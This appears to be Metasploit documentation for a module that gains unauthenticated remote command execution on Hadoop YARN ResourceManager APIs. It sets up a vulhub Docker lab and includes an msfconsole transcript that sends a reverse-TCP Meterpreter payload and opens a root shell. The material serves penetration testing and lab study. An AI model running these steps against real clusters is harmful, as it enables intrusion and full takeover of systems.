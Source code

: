 ## Description

This module uses built-in functionality to execute arbitrary commands on an unsecured Hadoop server which is
not configured for strong authentication, via Hadoop's standard ResourceManager REST API.

## Vulnerable Application

**Vulnerable Application Link**

- docker

https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

### Vulnerable Application Installation Setup.

Change dictory to `vulhub/hadoop/unauthorized-yarn`, and run `docker-compose up -d`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/hadoop_unauth_exec```
  4. Do: ``set rhost x.x.x.x``
  5. Do: ``set rport 8088``
  6. Do: ``check``

``[+] 192.168.77.141:8088 The target is vulnerable.``

  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: ``exploit``
  9. You should get a shell.


## Scenarios

```
msf > use exploit/linux/http/hadoop_unauth_exec
msf exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/http/hadoop_unauth_exec) > set rhost 192.168.77.141
rhost => 192.168.77.141
msf exploit(linux/http/hadoop_unauth_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.77.141   yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/http/hadoop_unauth_exec) > set lhost 192.168.77.141
lhost => 192.168.77.141
msf exploit(linux/http/hadoop_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.77.141:4444
[*] Sending Command
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (853256 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.77.141:4444 -> 172.20.0.3:34138) at 2018-05-15 03:21:17 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
